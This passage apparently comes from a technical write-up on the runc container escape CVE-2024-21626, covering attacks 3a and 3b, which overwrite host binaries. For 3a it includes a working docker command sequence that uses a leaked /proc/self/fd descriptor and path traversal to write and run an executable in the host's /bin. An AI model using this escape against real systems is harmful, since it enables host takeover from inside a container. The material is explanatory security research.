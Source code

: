 ##### Attacks 3a
>Attack 3a is attack 1 but adapted to overwrite a host binary, where a malicious image is set up to execute `/proc/self/fd/7/../../../bin/bash` and run a shell script that overwrites `/proc/self/exe`, overwriting the host copy of `/bin/bash`. The CVSS score for this attack is **8.6 - high severity**.

Once obtained the access through the attack 1, it is possible to use the host bash binary and binaries to create new files or overwrites the exists ones that should be launched by the administrator and give further access to the host machine.

```bash
# Attack 3a is attack 1 but adapted to overwrite a host binary

# run container with the working direcotry to /proc/self/fd/8
sudo docker run -w /proc/self/fd/8 \
                --name cve-2024-21626 \
                --rm -it debian:bookworm
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@e5b0730af51d:.# 

# write file in the host container
root@b6873018a7e8:.# cat > ../../../../../../../../bin/cve2024_21626 << EOF
#!/bin/bash
echo "Hello CVE-2024-21626"
EOF

# change chmod
root@b6873018a7e8:.# ../../../../../bin/chmod +x ../../../../bin/cve2024_21626
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory

# check if the file is present in the host
demo@demo-pc:/bin$ ls -la | grep cve
-rwxr-xr-x  1 root root          40 mar  7 13:24 cve2024_21626

# try it in the host
demo@demo-pc:/bin$ sudo ./cve2024_21626 
Hello CVE-2024-21626
```
<br>
{{< img src="images/scenario3_1.png" align="center" title="Attack 3a">}}

##### Attacks 3b
> Attack 3b is attack 2 but adapted to overwrite a host binary, where the malicious container process overwrites all of the possible runc exec target binaries inside the container (such as `/bin/bash`) such that a host target binary is executed and then the container process opens `/proc/$pid/exe` to get access to the host binary and overwrite it. The CVSS score for this attack is **8.2 - high severity**.


Once obtained the access through the attack 2, it is possible to use the host bash binary and binaries to create new files or overwrites the exists ones that should be launched by the administrator and give further access to the host machine.
